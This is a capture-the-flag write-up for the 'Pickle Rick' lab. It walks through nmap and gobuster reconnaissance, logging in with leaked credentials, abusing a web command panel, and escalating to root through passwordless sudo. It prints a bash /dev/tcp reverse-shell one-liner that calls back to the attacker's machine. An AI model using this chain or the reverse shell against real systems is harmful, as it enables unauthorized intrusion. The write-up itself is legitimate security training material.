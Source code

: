 **Tristan Gomez**

# Pickle Rick

### Description:
`
This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
`

### Setup

To start the challenge click the `Start Machine` button and wait 1 minute for the target's IP address to appear.
I elected to connect my computer using openvpn instead of the `Attack Box` option. Send the target's IP address a ping to check if its up.

### Step 1: Intel Gathering


Begin with an nmap scan of the target. I elected to use SYN scans

`nmap -sS 10.10.x.x`

We get back two services.

`
PORT    STATE   SERVICE
22/tcp  open    ssh
80/tcp  open    http
`

Looks like there is a website running, lets check it out. When I open `10.10.x.x` in my browser, I am greeted by a picture of Rick and Morty running from some aliens with the text.

```
Help Morty!

Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP*....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP*, password was! Help Morty, Help!
```

Doesn't look like this text has any useful hints. Let's check the page's source next using the browser's dev tools. When I expand the HTML there is a comment with a username. 

`
    Note to self, remember username!

    Username: R1ckRul3s
`

There are no links to other possible pages in the page's source. Im going to check if there is a robots.txt for this site. Sure enough, there is a robots.txt with what could be a password `Wubbalubbadubdub`. There doesn't appear to be anything else useful in this page. <br />

I am going to run `gobuster` to enumerate a *small* file of directory names. We'll see if there are any other pages that are hiding. I ran `gobuster dir -w directoy-list-2.3-small.txt -u 10.10.x.x`. While this is running, open another terminal window and run `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x .php -u 10.10.x.x`. <br />

My first scan yields `/assets`. Opening it up in the browser, I can see adirectory of files. There are a few .js, .css, .jpg, and .gif files but no futher info is gained from examining these files. <br />

My `.php` scans have gone much better. I have found a `/login.php` and a `/portal.php`, which redirects back to `/login.php`.

### Step 2: Initial Entry

The `login.php` page has a generic username and password form. Using `R1ckRul3s:Wubbalubbadubdub` I am able to successfully login. We are redirected to `/portal.php` and on this page is a `Command Panel` which has a fillable text area below it. There is a conspicuous green button that says `Execute`. My gut instinct is to type `ls` and click `execute` to see if it is a linux machine. <br />

We get back

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

From here, I opened `/Sup3rS3cretPickl3Ingred.txt` through the browser, which gives the first ingredient. If we try to `cat` the file using this `Command Panel` we get the error message `Command disabled to make it hard for future PICKLEEEE RICCCKKKK.`. At this point, I am going to attempt to run a reverse shell. On my machine I will run `netcat -l -p 11111`. In the `Command Panel` I am going to enter `bash -c 'bash -i >& /dev/tcp/10.2.84.164/1111 0>&1'`. Looking at my netcat window I get 

```
bash: cannot set terminal process group (1341): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ip-10-10-108-131:/var/www/html$
```

If we try to run `cat` again on the file containing the first flag, we can seer that this is finally working. Let's check Rick's permissions using `sudo -l`.

```
User www-data may run the following commands on
        ip-10-10-108-131.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL

```

Looks like we can do whatever we want. Let's run `sudo bash` then `whoami` => `root`. Ohohohoho, looks like we have free run of the place. Lets go to `/home` where there is a directory `/rick` stepping into it and listing its contents shows a file `second ingredients`. Using `cat` to see what's inside, we find the second flag. <br />

Finally `cd /root` and `ls`. There is a `3rd.txt` file. Examining its contents gives us the final flag. 
